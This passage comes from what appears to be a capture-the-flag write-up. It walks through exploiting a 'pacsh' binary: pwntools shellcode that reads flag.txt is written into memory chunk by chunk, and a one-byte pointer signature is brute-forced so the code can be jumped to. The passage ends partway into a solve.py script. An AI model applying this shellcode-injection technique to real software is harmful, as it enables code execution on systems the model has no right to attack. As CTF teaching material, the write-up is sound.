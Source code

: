 Here is script that generates code and writes it to memory:

```py
# function generates assembly to read flag and writes its to the base_addr
def write_shell_code(base_addr, write64_addr):
    # use pwntools shellcraft to create assembly code for reading file flag.txt and then hang thread forever
    # if process immediately crashes/exists we won't get contents of the flag sent to us over network
    code = asm(shellcraft.cat("flag.txt") + shellcraft.infloop())

    for i in range(0, len(code), 8): # iterate over code 8 bytes at a time
        # read next 8 bytes to send
        chunk_bytes = code[i:i + 8]
        # pad with 0 (only relevant for the last chunk if number of bytes in code is not mulitple of 8)
        chunk_bytes += bytearray(8 - len(chunk_bytes))
        # convert bytes to big endian and then into hex
        chunk_hex = hex(unpack(chunk_bytes))
        # instruct target application that we want to execute write64
        io.sendline(hex(write64_addr).encode())
        # wait till target application is ready to receive our input
        io.recvuntil(b"write64> ")
        # send address that we want to write too (for each chunk we increase it by i) and value of the chunk
        io.sendline((hex(base_addr + i) + " " + chunk_hex).encode())
        # wait till application executed our write instruction
        io.recvuntil(b"pacsh> ")
```

Now our code is ready and all is left to do is jump there. But we can't just enter base address into the application: it requires
address to be signed. Signature is only 1 byte, so it can be quickly bruteforce it in a loop.

??? success "solve.py"
    ```py
    from pwn import *
    
    context.binary = elfexe = ELF('pacsh')
    libc = elfexe.libc
    
    context.log_level = 'warn'
    
    # function generates assembly to read flag and writes its to the base_addr
    def write_shell_code(base_addr, write64_addr):
        # use pwntools shellcraft to create assembly code for reading file flag.txt and then hang thread forever
        # if process immediately crashes/exists we won't get contents of the flag sent to us over network
        code = asm(shellcraft.cat("flag.txt") + shellcraft.infloop())
    